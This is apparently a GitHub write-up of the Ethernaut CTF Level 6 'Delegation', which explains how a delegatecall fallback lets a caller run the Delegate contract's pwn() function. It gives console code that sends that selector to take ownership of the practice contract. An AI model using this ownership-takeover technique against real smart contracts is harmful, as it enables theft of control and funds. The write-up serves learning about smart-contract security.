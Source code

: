 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/6-delegation.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 6 - Delegation</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 6 - Delegation](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-06-delegation)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
  - [Example](#example)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [Reference](#reference)

## Goals

<img src="../assets/requirements/6-delegation-requirements.webp" width="800px"/>

## The hack

This level want us to understand the danger of using Delegate calls in a smart contract. [Delegate Calls](https://solidity-by-example.org/delegatecall/) are a powerful tool that allows a contract to delegate a function call to another contract. This is a very useful feature when building upgradable contracts, but it can also be very dangerous if not used correctly.

Basically, a delegate call is a low-level function that allows another contract to execute a function using the storage of the calling contract. This means that the delegate contract can modify the state of the calling contract.

### Example

> If `contractA` executes `delegatecall` to `contractB`, `contractB`'s code is executed with `contractA`'s storage, `msg.sender` and `msg.value`.

In this Ethernaut level, the `Delegation` contract (contractA in the previous example) has a `fallback` function that delegates the call to the `Delegate` contract (contractB).

```javascript
fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
```

By using a `delegatecall` to the `pwn` function, we will update the owner of the `Delegation` contract.

> NOTE: The storage slot order also plays an important role when using delegate calls. But will we explore this in the next levels. Here, since both contract only have one state variable, we don't need to worry about it.

## Solution

(In the browser's console)

1. Let's start by getting the selector of the `pwn()` function:

```javascript
const pwnSelector = web3.utils.keccak256("pwn()").slice(0, 10);
```

2. Then, call the `Delegation` contract's `fallback` function with the `pwn()` function selector:

```javascript
/**
 * @param {string} from - Your wallet address.
 * @param {string} to - Delegation instance address.
 * @param {string} data - The selector of the pwn() function: "0xdd365b8b".
 */
await web3.eth.sendTransaction({
  from: player,
  to: instance,
  value: "0",
  data: pwnSelector,
});
```

3. You can call the `owner()` function to check if the hack was successful:

```javascript
await contract.owner();
```

## Takeaway

- Use extreme caution when using delegate calls in your smart contracts.
- Make sure to understand the implications of using delegate calls and the potential security risks.
- <b>Delegate calls should not accept untrusted inputs.</b>

## Reference

Parity Wallet Hack: https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7/

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
